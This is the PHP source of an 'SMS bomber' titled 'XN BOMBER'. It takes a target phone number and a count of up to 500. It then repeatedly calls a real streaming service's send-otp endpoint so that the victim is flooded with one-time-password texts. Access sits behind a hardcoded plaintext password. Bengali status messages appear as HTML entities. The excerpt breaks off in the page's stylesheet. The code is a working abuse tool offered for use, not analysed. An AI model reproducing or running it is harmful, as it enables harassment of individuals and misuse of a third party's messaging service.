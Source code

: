 <?php
session_start();
if(isset($_POST['submit'])){
	$number = $_POST['number'];
	$amount = $_POST['amount'];
	if($amount > 500 or $amount < 0){
		$_SESSION['alert'] = '<div class="alert alert-danger alert-white rounded"><div class="icon"><i class="fa fa-times-circle"></i></div><strong>&#2488;&#2480;&#2509;&#2476;&#2507;&#2458;&#2509;&#2458; &#2474;&#2480;&#2495;&#2478;&#2494;&#2467; &#2539;&#2534;&#2534;!</strong></div><br>';
	}else{
		for($i=0; $i < $amount; $i++){ 
			$url = "https://stage.bioscopelive.com/en/login/send-otp?phone=88".$number."&operator=bd-otp";
			$cSession = curl_init();
			curl_setopt($cSession,CURLOPT_URL,$url);
			curl_setopt($cSession,CURLOPT_RETURNTRANSFER,true);
			curl_setopt($cSession,CURLOPT_HEADER, false);
			$result = curl_exec($cSession);
			$http_code = curl_getinfo($cSession, CURLINFO_HTTP_CODE);
			curl_close($cSession);
		}
	}
	if(empty($http_code)){
		$http_code = "&#2470;&#2479;&#2492;&#2494; &#2453;&#2480;&#2503; &#2438;&#2476;&#2494;&#2480; &#2458;&#2503;&#2487;&#2509;&#2463;&#2494; &#2453;&#2480;&#2497;&#2472; &#2438;&#2474;&#2472;&#2494;&#2480; &#2453;&#2495;&#2459;&#2497; &#2477;&#2497;&#2482; &#2489;&#2479;&#2492;&#2503;&#2459;&#2503;";
	}
	if($http_code == 200){
		$_SESSION['alert'] = '<div class="alert alert-success alert-white rounded"><div class="icon"><i class="fa fa-check"></i></div><strong>&#2438;&#2474;&#2472;&#2495; &#2474;&#2494;&#2464;&#2494;&#2468;&#2503; &#2488;&#2453;&#2509;&#2487;&#2478; &#2489;&#2527;&#2503;&#2459;&#2503;&#2472;!</strong></div><br>';
	}else{
		$_SESSION['alert'] = '<div class="alert alert-danger alert-white rounded"><div class="icon"><i class="fa fa-times-circle"></i></div><strong>&#2476;&#2509;&#2479;&#2480;&#2509;&#2469; &#2489;&#2479;&#2492;&#2503;&#2459;&#2503;&#2472;! '.$http_code.'</strong></div><br>';
	}
}

$password = "XN63CY"; 

if (isset($_POST['login'])){
	if($_POST['password'] == $password){
		setcookie("isLogged", "032a4696d85ef780", time() + 1800, "/");
		header("location: /");
		}else{
			$_SESSION['alert'] = '<div class="alert alert-danger alert-white rounded"><div class="icon"><i class="fa fa-times-circle"></i></div><strong>&#2438;&#2474;&#2472;&#2495; &#2477;&#2497;&#2482; &#2474;&#2494;&#2488;&#2451;&#2527;&#2494;&#2480;&#2509;&#2465; &#2470;&#2495;&#2527;&#2503;&#2459;&#2503;&#2472;!</strong></div><br>';
			}
	}
?>
<!DOCTYPE html>
<html>
<head>
	<title>XN BOMBER</title>
	<meta name="viewport" content="width=device-width, user-scalable=no"/>
<link href="https://maxcdn.bootstrapcdn.com/font-awesome/4.3.0/css/font-awesome.min.css" rel="stylesheet">
	<style>
		*{
			padding: 0;
			margin: 0;
		}